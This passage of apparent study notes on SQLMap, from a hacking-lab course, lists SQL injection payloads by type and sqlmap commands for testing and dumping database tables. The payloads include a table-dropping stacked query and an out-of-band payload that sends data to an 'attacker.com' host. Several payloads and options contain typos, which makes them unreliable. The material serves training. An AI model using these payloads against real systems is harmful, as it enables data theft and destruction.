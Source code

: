 
To use SQLMap we can use : `python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'`
To install SQLMap : 
``` shell
# For Linux
sudo apt install sqlmap

#For Windows
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
```

## Types of SQLi
- **Boolean-based Blind SQL Injection** : `AND 1=1`
- **Error-based SQL Injection** : `AND GTIF_SUBSET(@@version,0)`
- **Union query based** : `UNION ALL SELECT 1,@@version,3`
- **Stacked Queries** : `; DROPE TABLE users`
- **Time-based Blind SQL Injection** : `AND 1=IF(2>1,SLEEP(5),0)`
- **Inline Queries** : `SELECT(SELECT @@version) from`
- **Out-of-band SQL Injection** : `LOAD_FILE(CONCAT('\\\',@@version,'.attacker.com\\README.txxt'))`

## Levels of Help Message Listing
- Basic Listing : `sqlmap -h`
- Advanced Listing: `sqlmap --hh`

Command used to run SQLMap : `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`

> Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

## cURL Commands
One of the best and easiest ways to properly set up an SQLMap request against the specific target (i.e., web request with parameters inside) is by utilizing `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools: ![Network panel showing a GET request to www.example.com with a 404 status, and a context menu with options like 'Copy as cURL'.](https://academy.hackthebox.com/storage/modules/58/M5UVR6n.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

Running SQLMap on an HTTP Request

```shell-session
ShibuShivansh@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

## GET/POST Requests
For GET Request, we need to run the command : `sqlmap --url "https://domain.com"`

For POST Request, we need to run the command : `sqlmap 'http://www.example.com/' --data 'uid=1&name=test`
> Now here both the parameters `uid` and `name` will be tested, but if we need one of them to be tested then it should be like `uid1*&name=test`, so here UID must be tested.

## Full HTTP Request
Create a file named as `req.txt` and insert the HTTP Request Packet there. And then use the command : `sqlmap -r req.txt`

## Specifying a Cookie 
- Using a flag `--cookie`  : `sqlmap "http://www.example.com/" --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
- Using a flag `-H/--header` : `sqlmap "http://www.example.com/" -H='Cookie:ab4530f4a7d10448457fa8b0eadac29c'`

**Specifying alternative HTTP Method :** `sqlmap -u www.target.com --data='id=1' --method PUT`


We should also use two flags to extract information : `--batch --dump`

`sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`: In this command , `-p` specifies parameter to be tested, `--dump -T flag2` instructs SQLmap to dump (extract) all data from the table named flag2.

To store the traffic 